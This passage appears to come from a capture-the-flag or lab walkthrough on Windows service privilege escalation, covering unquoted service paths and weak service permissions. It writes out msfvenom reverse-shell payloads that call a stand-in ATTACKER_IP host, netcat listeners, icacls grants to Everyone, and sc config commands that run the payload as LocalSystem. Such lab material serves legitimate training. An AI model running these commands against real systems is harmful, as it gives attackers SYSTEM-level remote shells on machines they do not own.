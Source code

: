 `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe`

`nc -lvp 4446`

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

`move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe`

`icacls C:\MyPrograms\Disk.exe /grant Everyone:F`

Once the service gets restarted, your payload should execute:

`C:\> sc stop "disk sorter enterprise"`

`C:\> sc start "disk sorter enterprise"`

As a result, you'll get a reverse shell with svcusr2 privileges:

## Insecure Service Permissions
You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite. For your convenience, a copy is available at `C:\\tools`. The command to check for the thmservice service DACL is:

`accesschk64.exe -qlc thmservice`

Here we can see that the `BUILTIN\\Users` group has the `SERVICE_ALL_ACCESS` permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`

`nc -lvp 4447`

We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`. Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:

`icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):

`C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:
